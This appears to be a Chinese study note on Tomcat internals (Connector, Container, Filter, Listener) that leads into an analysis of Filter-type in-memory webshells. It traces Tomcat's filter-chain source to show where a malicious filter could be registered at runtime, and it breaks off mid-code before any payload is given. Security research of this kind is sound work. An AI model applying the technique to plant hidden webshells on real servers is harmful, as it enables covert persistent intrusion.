##### Tomcat 基础

​	Tomcat可以看成是Web服务器加上Servlet容器，通过 Connector 组件接受并解析 HTTP 请求，然后封装成一个 ServletRequest 对象（org.apache.catalina.connector.RequestFacade 对象）发送给 Container 处理，容器处理完后将响应封装为 ServletResponse 返回给 Connector ,Connnector 将 ServletResponse 对象解析为 HTTP 响应返回给客户端。

Tomcat Server大致分为三个组件，Service、Connector、Container

-  Service 负责连接 Connector 与 Container ,connector 监听网络端口，解析客户端的 http 请求，封装成 ServletRequest 对象然后通过 Service 转发给 Container,以及接受并解析 Container 返回的 ServletResponse 对象为 http 响应。不同的 Connector 可以处理不同的请求协议，然后调用所属 Service 内绑定的 Container ，即 engine ，实现路由分级。

-  Container 包含四个子容器 Engine Host Context Wrapper 。

    - Engine 从一个或多个与之绑定的 Connector 接收已经被解析好的 HTTP 请求 `ServletRequest`，然后根据请求的域名信息，将请求分发给下面的 Host 处理。

    - 可以在同一个 Tomcat 上配置 `www.baidu.com` 和 `www.google.com` 两个 Host。当 Engine 收到请求时，Host 会根据 HTTP 请求头中的 `Host` 字段来接收这个请求。

    - Context 负责管理该应用内的所有资源、读取该应用的 `web.xml` 配置文件、初始化监听器（Listener）和过滤器（Filter）等

    - Wrapper 有一张图很合适描述，借用的一位师傅博客的图片

        

##### ServletContext

​	基于 Servlet 规范定义的一个接口，每一个 web 应用都有唯一的 ServletContext 对象，同一个web 应用下的 Servlet Filter Listener 都能访问。其中定义的方法可以存储一些数据，用于共享。可以获取 web 应用 web.xml 下的一些参数，读取 web 应用内部文件数据等

##### ApplicationContext

​    tomcat 中实现了 ServletContext 接口的类，内部持有 StandardContext 的引用。一般返回的都是 context.getFacade() ，例如 request.getSession().getServletContext(); 得到的就是一个 ApplicationContextFacade 对象。

```java
public ApplicationContext(StandardContext context) {
    super();
    this.context = context;
    this.service = ((Engine) context.getParent().getParent()).getService();
    this.sessionCookieConfig = new ApplicationSessionCookieConfig(context);

    // Populate session tracking modes
    populateSessionTrackingModes();
}
private final StandardContext context;
private final ServletContext facade = new ApplicationContextFacade(this);
protected ServletContext getFacade() {
        return this.facade;
    }
```

ApplicationContextFacade 类中持有对 ApplicationContext 的引用。

```java
public ApplicationContextFacade(ApplicationContext context) {
    super();
    this.context = context;

    classCache = new HashMap<>();
    objectCache = new ConcurrentHashMap<>();
    initClassCache();
}
```


##### StandardContext

内部维护了各种 Map 和 List，用来存放所有的 Servlet Wrapper、 Filter 、Listener。拥有自己的 WebappClassLoader，负责加载项目 WEB-INF/classes 和 WEB-INF/lib 下的类，保证不同 Web 应用之间的类隔离。负责这个 Web 应用的启动、停止、重加载。 tomcat 下的底层 context。

#### tomcat 类加载机制 

​	tomcat 中有多个 webapp 

##### Servlet

​	java web 服务一般由 web 服务器和 Servlet 两部分组成。web 容器处理 http req res,把网络底层传来的原始 HTTP 报文解析成了方便 Java 操作的对象 `HttpServletRequest`，然后交给了 Servlet,Servlet 读取参数,获取 URL 中的查询参数或者表单提交的数据，读取请求体，请求头，可以执行与数据库交互，鉴权等业务逻辑，业务逻辑处理完之后，将返回结果装到 web 容器提供的 HttpServletResponse 对象中，web 容器将其打包成 HTTP 报文返回客户端


##### Filter

像 go 的中间件一样，在业务逻辑之前对 http 请求进行处理，不改变业务核心代码的同时增添额外的逻辑。

执行顺序的问题，Filter执行顺序

- 基于注解配置：按照类名的字符串，值小的先执行
- web.xml：根据对应的 Mapping 顺序，上边的先执行

##### Listener

1. 监听生命周期

- **`ServletContextListener`**：监听整个 Web 应用的启动和关闭。
    - 通常用来在应用刚启动时，加载全局配置文件、初始化数据库连接池

- **`HttpSessionListener`**：监听 Session 对象的创建和销毁。

- **`ServletRequestListener`**：监听每一次 HTTP 请求的到达和结束。
    - 可以用于在请求创建时记录时间戳，销毁时相减，从而统计算法的执行耗时；或者用于在请求初期初始化一些绑定在当前线程上的上下文变量等

2. 监听属性变化

- **`ServletContextAttributeListener`**：监控全局应用域内部变量的增删改。

- **`HttpSessionAttributeListener`**：监控会话域内部变量的变化。

    - 实现单点登录或异地登录互踢。当监听到某个用户的登录态 Token 被写入新的 Session 时，可以触发逻辑去作废该账号之前的旧 Session。

    **`ServletRequestAttributeListener`**：监控请求域内部变量的变化。

大概可以分为以下三类

- ServletContextListener
- HttpSessionListener
- ServletRequestListener

三者的加载顺序为 `Listener->Filter->Servlet` 销毁顺序相反。


#### Tomcat 内存马

Tomcat7.x 及以上 支持 Servlet 3.0。Servlet 3.0 之后支持动态注册组件，内存马原理是动态地将恶意组件添加到正在运行的Tomcat服务器中。

##### Servlet 型 (todo)


##### Listener 型 （todo）

ServletContextListener 只在 web 应用启动时触发一次，所以不合适作为内存马，并且它的事件对象 ServletContextEvent 里只有全局上下文，根本没有具体的 Request 和 Response 对象，无法读取通过 HTTP 传来的payload

HttpSessionListener 只能监听 session 产生变化，除去不方便触发以外，也拿不到 http 请求,回应的 res req 对象，没办法执行命令。

ServletRequestListener 是最合适的，




##### Filter 型

http req --> server --> filter_1 --> filter_2 --> servlet  , 动态注册恶意 filter ，将其放在最前面避免被其他 filter 干扰。

web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>filter</filter-name>
        <filter-class>filter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>filter</filter-name>
        <url-pattern>/filter</url-pattern>
    </filter-mapping>
</web-app>
```

在 filter.doFilter 处下断点得到调用栈

filter.doFilter() --> ApplicationFilterChain.doFilter() --> internalDoFilter(req,res) , internalDoFilter 方法中遍历 filters 中的元素，

```java
private ApplicationFilterConfig[] filters = new ApplicationFilterConfig[0];
```

执行 getFilter() 方法，经过下面的 if 判断，走入的是下面的 else 分支，调用

```java
filter.doFilter(request, response, this);
```

进入了 WsFilter.doFilter() 方法，然后继续走回了 ApplicationFilterChain 的 doFilter 方法中。然后继续调用 internalDoFilter 方法

这里的 filter 是 WsFIlter ,tomcat 初始化时注册的。

chain 是 ApplicationFilterChain 

```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
```

因此调用 chain.doFilter 方法就由回到了 ApplicationFilterChain 的 doFilter 方法中，继续走这个循环直到最后一个 filter

这里不会进入 for (pos < n) 分支下，进入该分支，最后调用 service 方法

如果要基于 filter 创建一个内存马，需要找到哪些地方的代码实现了 filter 的创建，基于此创建一个恶意 filter。


总体调用栈如下，doFilter 之前的调用栈实现了 filter 的创建。

从 Thread.run() 到 NioEndpoint$SocketProcessor.doRun() ，Tomcat 内部维护的一个线程池，当一个 http 请求进来时分配一个线程处理这份请求，

这些部分应该是处理原始 tcp 字节流，识别 HTTP 方法、请求路径（/filter）、请求头（Headers）等信息，封装成一个 org.apache.coyote.Request 对象传入 CoyoteAdapter.service 方法

该方法将 org.apache.coyote.Request 对象封装成 org.apache.catalina.connector.RequestFacade 对象，并且解析请求 url,参数等，将其分到相应的 context (web 应用) 

```java
postParseSuccess = postParseRequest(req, request, res, response);
if (postParseSuccess) {
    //check valves if we support async
    request.setAsyncSupported(
            connector.getService().getContainer().getPipeline().isAsyncSupported());
    // Calling the container
    connector.getService().getContainer().getPipeline().getFirst().invoke(
            request, response);
}
```

再次引用这张图片，当前就是  connector --> service 阶段，

前文提到 Service 负责将 connector 和 engine 连接起来，将收到 的 connector 监听到的请求传递给与之关联的顶层容器 engine （Service 不提供转发数据的功能，属于是提供联系方式的作用）

然后每个容器 engine host context wrap 都关联了一个单独的 Pipeline 实例，Pipeline 维护了一个 Valve 列表，并负责按顺序调用它们。 valve 是 tomcat 处理请求的最小单元，每个 pipeline 有一组 valve ，相继调用，最后一个 valve 会分发这个请求到合适的子容器，比如 host 的 pipeline 的最后一个 valve 会将 req res 传递到对应的 context，可以理解为不同层级 pipeline的 basicValve 的 invoke() 是在选择相应的子容器.因此就有了接下来的一系列 invoke

engine valve 应该就是engine容器 pipeline 中的 basic valve，而 host 容器的 pipeline 的 valve 是 AccessLogValve,ErrorReportValve,最后一个是 HostValve，以此类推，Context 容器的 pipeline 的第一个 valve 是 AuthenticatorBase ...... 到 warp 的 basicValve 的 invoke 方法调用了 filterChain.doFilter() 方法。

filterChain

```java
// Create the filter chain for this request
ApplicationFilterChain filterChain =
        ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);

```

其中的参数 wrapper ,最后一个 valve 并没有 servlet,需要回头找他隶属的 wrap 对象，该对象内部有 Servlet 对象 ，通过 wrapper.allocate() 拿到 servlet 对象。

```java
StandardWrapper wrapper = (StandardWrapper) getContainer();
```

跟进 createFilterChain 方法。其中 ApplicationFilterChain 

```
Implementation of javax.servlet.FilterChain used to manage the execution of a set of filters for a particular request. When the set of defined filters has all been executed, the next call to doFilter() will execute the servlet's service() method itself.
```


```java
public static ApplicationFilterChain createFilterChain(ServletRequest request,
        Wrapper wrapper, Servlet servlet) {

    // If there is no servlet to execute, return null
    if (servlet == null) {
        return null;
    }

    // Create and initialize a filter chain object
    ApplicationFilterChain filterChain = null;
    if (request instanceof Request) {
        Request req = (Request) request;
        // 一般不会进入这个分支，容易报错
        if (Globals.IS_SECURITY_ENABLED) {
            // Security: Do not recycle
            filterChain = new ApplicationFilterChain();
        } else {
            filterChain = (ApplicationFilterChain) req.getFilterChain();
            if (filterChain == null) {
                filterChain = new ApplicationFilterChain();
                req.setFilterChain(filterChain);
            }
        }
    } else {
        // Request dispatcher in use
        filterChain = new ApplicationFilterChain();
    }

    filterChain.setServlet(servlet);
    filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());

    // Acquire the filter mappings for this Context
    StandardContext context = (StandardContext) wrapper.getParent();
    FilterMap filterMaps[] = context.findFilterMaps();

    // If there are no filter mappings, we are done
    // 从这里开始如果 filterMaps 不为空，会去获取需要的 filter mappings 信息，context.findFilterMaps()从 Web 应用中拿到所有的 Filter 映射规则。把 web.xml 里写的 <filter-mapping> 标签，或者 @WebFilter 注解生成的规则，读取成一个数组
    if ((filterMaps == null) || (filterMaps.length == 0)) {
        return filterChain;
    }

    // Acquire the information we will need to match filter mappings
    // 获取调度器类型，urlpath servletname 为下文遍历匹配
    DispatcherType dispatcher =
            (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);

    String requestPath = null;
    Object attribute = request.getAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR);
    if (attribute != null){
        requestPath = attribute.toString();
    }

    String servletName = wrapper.getName();

    // Add the relevant path-mapped filters to this filter chain
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersURL(filterMap, requestPath)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        // 全部匹配则将当前 filter 加入 filterChain
        filterChain.addFilter(filterConfig);
    }

    // Add filters that match on servlet name second
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersServlet(filterMap, servletName)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        filterChain.addFilter(filterConfig);
    }
	// 第一个 for 按照 <url-pattern> 匹配，第二个按照 servlet-name 匹配
    // Return the completed filter chain
    return filterChain;
}

```

接下来只需构造 evil filtermaps、filterconfig ，等加载进去就达到了目的。

filterMaps 中的数据对应 web.xml 中的 filter-mapping 标签

必要属性为 dispatcherMapping、filtername、urlpatterns ，因为 if 分支的判断就是比对这些数据，如图



filterConfig 包含了 StandardContext、filterDef 等， filterDef 对应web.xml中的 filter 标签。

filterDef必要的属性为filter、filterClass、filterName

```java
StandardContext context = (StandardContext) wrapper.getParent();
FilterMap filterMaps[] = context.findFilterMaps();
```

filterMaps 来自于 StandardContext 的 findFilterMaps 方法，于是进入 StandardContext 类查找看看有没有增改 filtermaps 的方法。找到如下两种方法。

```java
    /**
     * Add a filter mapping to this Context at the end of the current set
     * of filter mappings.
     *
     * @param filterMap The filter mapping to be added
     *
     * @exception IllegalArgumentException if the specified filter name
     *  does not match an existing filter definition, or the filter mapping
     *  is malformed
     */
    @Override
    public void addFilterMap(FilterMap filterMap) {
        validateFilterMap(filterMap);
        // Add this filter mapping to our registered set
        filterMaps.add(filterMap);
        fireContainerEvent("addFilterMap", filterMap);
    }


    /**
     * Add a filter mapping to this Context before the mappings defined in the
     * deployment descriptor but after any other mappings added via this method.
     *
     * @param filterMap The filter mapping to be added
     *
     * @exception IllegalArgumentException if the specified filter name
     *  does not match an existing filter definition, or the filter mapping
     *  is malformed
     */
    @Override
    public void addFilterMapBefore(FilterMap filterMap) {
        validateFilterMap(filterMap);
        // Add this filter mapping to our registered set
        filterMaps.addBefore(filterMap);
        fireContainerEvent("addFilterMap", filterMap);
    }

```

evil filterconfig 通过 ApplicationFilterChain#addFilter 方法添加到 filters 中的，

```java
   /**
     * Add a filter to the set of filters that will be executed in this chain.
     *
     * @param filterConfig The FilterConfig for the servlet to be executed
     */
    void addFilter(ApplicationFilterConfig filterConfig) {

        // Prevent the same filter being added multiple times
